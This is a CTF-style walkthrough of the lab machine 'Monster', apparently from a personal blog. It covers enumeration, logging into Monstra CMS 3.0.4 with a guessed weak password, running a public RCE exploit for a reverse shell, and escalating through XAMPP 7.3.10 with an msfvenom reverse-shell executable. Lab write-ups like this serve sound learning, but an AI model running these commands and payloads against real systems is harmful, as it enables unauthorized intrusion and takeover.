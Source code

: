 ```yaml
---
title: Monster
date: 2025-08-16
categories: [pg-practice]
tags: [walkthrough, Windows, weak-creds, Monstra-3.0.4, XAMPP-public-exploit-privesc] 
image: monster.jpg
media_subpath: /assets/img/posts/2025-08-16-monster/
---
```


# Introduction
In this machine, I discovered an HTTP service running on port 80 and performed enumeration using Gobuster and manual inspection. This revealed a Monstra 3.0.4 CMS instance, which I accessed by exploiting weak application credentials. By chaining this with a publicly known RCE vulnerability in Monstra, I obtained an initial shell on the system.

Further inspection showed that the server was running a vulnerable version of XAMPP 7.3.10. I leveraged this vulnerability to escalate my privileges, ultimately gaining an administrator shell.

# Enumeration

### Host

**192.168.223.180**

## Nmap

### Fast Scan

```bash
 sudo nmap ip
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F ip -oN udp-scan
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- ip -Pn -n -v --open  -oN full-scan
```

## Services

### Port 135 (MSRPC)

```bash
rpcclient -U'%' ip
```

**NT_STATUS_ACCESS_DENIED**

### Port 139/445 (SMB)

```bash
smbclient -L //ip/ -N
```

**NT_STATUS_ACCESS_DENIED**

### Port 3389

## Web

### Port 80

```bash
gobuster dir -u http://ip:40080/ -w /usr/share/wordlists/dirb/common.txt -t 42 -x pdf,txt,config -b 404,403,400
```

![image.png](image%201.png)

I have found `blog` directory and navigating there I see it goes to `monster.pg` domain so I will add it to `/etc/hosts` file.

### Port 443

## Exploitation

Navigating to `blog` directory I see the version of application used:

![image.png](image%202.png)

I found the following [exploit](https://www.exploit-db.com/exploits/52038) regarding it:


But I need credentials to use this exploit, so I tried default ones `admin:admin`,`mike:mike`, and ones tied to this case `admin:wazowski`, and the last one actually worked.

![image.png](image%203.png)

After making some indentation and syntax fixes in the script I see it worked:

```bash
python3 52038.py http://monster.pg/blog admin wazowski
```

![image.png](image%204.png)

![image.png](image%205.png)

Let’s get a reverse PowerShell shell, I will take i from the following website:

![image.png](image%206.png)

![image.png](image%207.png)

Now I have a shell:

![image.png](image%208.png)

## Privilege Escalation

I checked user privileges, groups, vulnerable services and installed applications, I found that `XAMPP` version is 7.3.10 from `properties.ini` under `XAMPP` folder.

![image.png](image%209.png)

I found the following [exploit](https://www.exploit-db.com/exploits/50337) for it:

![image.png](image%2010.png)

It will be our executable in XAMPP Control Panel in Editor field.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.176 LPORT=4343 -f exe -o shell4343.exe
```

![image.png](image%2011.png)

After a bit waiting I got a connection:

![image.png](image%2012.png)

